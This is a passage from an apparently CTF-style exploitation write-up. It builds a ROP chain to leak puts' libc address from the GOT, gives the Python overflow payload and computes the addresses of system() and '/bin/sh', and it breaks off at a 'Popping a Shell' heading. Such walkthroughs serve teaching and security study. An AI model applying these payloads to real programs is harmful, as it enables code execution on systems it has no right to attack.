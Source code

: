 **But how do I read the GOT?**

Remember: I can control the return address! When `admin_func()` returns, I can make it return to a ROP chain instead of back to main's loop.

**ROP Chain Plan**:
```
pop rdi              ; Set up argument
<puts_got_address>   ; Argument: address of puts in GOT  
puts@plt             ; Call puts(puts_got) to print the address
main                 ; Return to main for another round
```

**Wait, there's a problem**: If I overwrite the return address, the program will crash when the function pointer is called, before reaching my ROP chain!

**Solution**: Call `admin_func` via the function pointer (returns 1, loops back), but place the ROP chain at the return address. After the second loop iteration, when I want to trigger the ROP, I'll send different input.

Actually, **even better**: The function gets called, returns to main's loop code, loops back to ask for input again, and eventually when the loop exits (at the `puts("bye!")` line), main's epilogue executes `leave; ret`, which pops our ROP chain!

**Payload 2**:
```python
payload = b"A" * 104           # Fill buffer
payload += p64(admin_func)     # Function pointer (returns 1)
payload += b"B" * 8            # Saved RBP (doesn't matter)
payload += p64(pop_rdi)        # Start of ROP chain
payload += p64(puts_got)       # Argument
payload += p64(puts_plt)       # Call puts
payload += p64(main)           # Loop back to main
```

When the program loops, calls `admin_func` again, returns, and eventually `main` does its epilogue, my ROP chain executes!

**Result**: The output contains the leaked libc address:

```
bye!
\x20\xf4\x7d\xb7\xc3\x7f   ← This is puts@libc!
Hello functional world! Whats your name?
```

Calculating libc base:
```python
puts_libc = u64(leaked_bytes.ljust(8, b'\x00'))
libc_base = puts_libc - 0x84420  # puts offset in libc
system_addr = libc_base + 0x52290
binsh_addr = libc_base + 0x1b45bd
```

**Success!** Now I know where `system()` and the `/bin/sh` string are in libc.

#### Stage 3: Popping a Shell
